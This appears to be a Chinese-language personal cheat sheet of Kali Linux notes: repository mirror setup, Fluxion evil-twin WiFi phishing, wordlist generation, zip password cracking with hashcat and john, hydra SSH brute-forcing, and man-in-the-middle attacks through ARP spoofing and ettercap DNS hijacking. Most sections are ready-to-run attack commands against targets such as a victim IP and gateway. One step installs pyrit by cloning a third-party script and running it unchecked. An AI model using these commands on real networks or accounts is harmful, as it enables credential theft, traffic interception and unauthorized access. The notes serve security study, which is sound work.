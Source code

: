 # 1. 更换国内源

### 1）更新源

`vim /etc/apt/sources.list`**  

复制下面源码 选择一个  粘贴到里面，并把原来的源注释掉：

    deb http://mirrors.ustc.edu.cn/debian/ buster main contrib non-free
    deb http://mirrors.ustc.edu.cn/debian/ buster-updates main contrib non-free
    deb http://mirrors.ustc.edu.cn/debian/ buster-backports main contrib non-free
    deb http://mirrors.ustc.edu.cn/debian-security buster/updates main contrib non-free
    
    deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
    
    deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
    
    deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
    
    deb http://mirrors.neusoft.edu.cn/kali> kali-rolling/main non-free contrib
    deb-src http://mirrors.neusoft.edu.cn/kali> kali-rolling/main non-free contrib
```bash
sudo apt-get update #更新软件列表
sudo apt-get upgrade #更新软件
合并为：
apt-get update && apt-get upgrade
sudo apt-get dist-upgrade #升级
sudo apt-get clean #删除缓存包
sudo apt-get autoclean #删除未安装的deb包
```

### 缺少pyrit，并且E :pyrit无法定位的问题：

手动安装pyrit

```bash
git clone https://github.com/hacker3983/pyrit-installer.git
```

```bash
 bash install.sh
```

### 出现存在软件包未满足依赖时：

有的比较老的博客提供镜像源的版本是bonic，你的系统版本可能比较新可能是focal， 直接复制别人的镜像源，版本代码对不上， 就会出错。

```bash
#运行：
apt --fix-broken install
```

![image-20240309000436276](https://raw.githubusercontent.com/Neon2333/ImageHost/main/image-20240309000436276.png?token=ANG32YAYUCDRH27QRDYTFQTF5M32A)

### 当出现更新源签名无效问题时：

![image-20240308222536760](https://raw.githubusercontent.com/Neon2333/ImageHost/main/image-20240308222536760.png?token=ANG32YFQKKYRTQEWKTWJSMDF5MXYE)

* 下载签名并且安装

  ```bash
  wget archive.kali.org/archive-key.asc     #root用户下
  
  apt-key add archive-key.asc
  ```

* 更新源和软件

  ```bash
  apt-get update && apt-get upgrade && apt-get clean
  
  OK！
  ```

# 2. fluxion

## 1）安装

```bash
git clone git@github.com:FluxionNetwork/fluxion.git
./fluxion.sh -i
```

全部显示OK，否则检查软件源。

## 2）钓鱼WiFi

HandShake Snooper=>扫描2.4G信道=>选择WIFI_id=>重置攻击=>mdk4=>抓包成功会显示HandShake Snooper攻击完成

1选择攻击方式=>1创建WiFi=>重置攻击=>mdk3=>hostapd=>hash-cowpatty=>1使用抓到的hash=>2cowpatty验证=>1创建SSL证书

=>1断开原网络=>3Chinese=>出现6个窗口表示成功

# 3. 生成字典



```bash
crunch <min> <max> [options]	#min和max是生成的密码的最少、最长位数
```

示例：

```bash
crunch 2 3 012345 -o ./aaa.txt
```

# 4. 破解压缩包密码

爆破法破解：纯数字密码不超过十位的话还有希望，带标点的基本就不用试了，要是再带字母。

### 1）**解压缩全能王这样的云解密软件，只要服务器上存储有压缩包密码就可以获取。这种方法成功率最高。**

### 2）hashcat破解

* 获得压缩包hash-code

  ```bash
  zip2john aaa.zip > hash_code.txt
  ```

* 从aaa.txt中复制字符串前一部分到网站hashcat找到字符对应的hash-mode

  hashcat：https://hashcat.net/wiki/doku.php?id=example_hashes

* 破解

  ```bash
  hashcat -a 3 -m <hash-mode> hash_code.txt --increment ?d?d?d?d?d?d -o ./password.txt
  #-a 表示破解模式
  #6个?d表示六个纯数字
  ```

![image-20240310195450608](https://raw.githubusercontent.com/Neon2333/ImageHost/main/image-20240310195450608.png?token=ANG32YCCQWUZLPOUADHQSE3F5WQB2)

![image-20240310195523847](https://raw.githubusercontent.com/Neon2333/ImageHost/main/image-20240310195523847.png?token=ANG32YGJ5VAV3XVRDUBLS2LF5WQDO)

### 3）john破解

```bash
zip2john aaa.zip > hash_code.txt
john hash_code.txt
```

# 5. hydra爆破服务用户名和密码

支持服务：ssh、telnet、ftp、MySQL、RDP(端口3389)

`hydra 参数 IP 服务名`

| -    | -                                            |
| ---- | -------------------------------------------- |
| -l   | 指定登录用户名                               |
| -L   | 用户名字典（按照字典文件中用户名的顺序爆破） |
| -p   | 指定密码                                     |
| -P   | 密码字典                                     |
| -s   | 指定端口                                     |
| -t   | 设置线程数                                   |
| -o   | 输出文件                                     |
| -vV  | 显示详细过程                                 |

```bash
hydra -l root -P ./password.txt -t 4 -vV -s 22 127.0.0.1 ssh	##爆破ssh登录密码
hydra -L /usernameDict.txt -P ./password.txt -t 4 -vV -s 22 127.0.0.1 ssh	##爆破ssh登录密码
```

# 6. 中间人攻击

https://blog.csdn.net/m0_74806866/article/details/134853842

中间人（MITM）攻击在计算机出现之前就已经存在。这种类型的攻击包括攻击者将自己插入到相互通信的双方之间。中间人攻击本质上是窃听攻击。

```bash
ettercap -G
```

### 1）arp攻击断网

```bash
arpspoof -i eth0(网卡名) -t 靶机ip 网关
```

### 2）DNS劫持

* 在攻击机上启动Apache2服务：

  ```bash
  systemctl start apache2
  ```

* 修改ettercap配置文件。添加一条记录将域名指向攻击机IP：

  ```bash
  vim /etc/ettercap/etter.dns
  www.baidu.com	A	攻击机IP
  ```

  ![image-20240311011517517](https://raw.githubusercontent.com/Neon2333/ImageHost/main/image-20240311011517517.png)

* 开始

  ```bash
  ettercap -i eth0 -Tp -M arp:remote -P dns_spoof /靶机IP// /网关// ；
  ```

  靶机解析www.baidu.com域名时跳转到攻击机IP。
